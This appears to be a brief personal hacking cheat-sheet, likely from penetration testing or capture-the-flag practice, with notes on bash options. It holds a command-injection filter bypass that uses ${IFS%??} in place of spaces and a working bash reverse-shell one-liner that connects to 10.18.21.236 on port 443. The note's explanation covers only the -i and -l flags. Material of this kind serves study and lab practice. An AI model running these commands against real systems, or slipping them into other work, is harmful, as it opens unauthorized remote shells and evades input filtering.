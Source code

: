 `${IFS%??}` = space as in `which${IFS%??}bash`

^works on bash, not on zsh

`/bin/bash -i >& /dev/tcp/10.18.21.236/443 0>&1`


-i   interactive
-l   executes `~/.bash_profile`, `~/.bash_login`, or `~/.profile` (in that order) and inherits environment variables set in those files

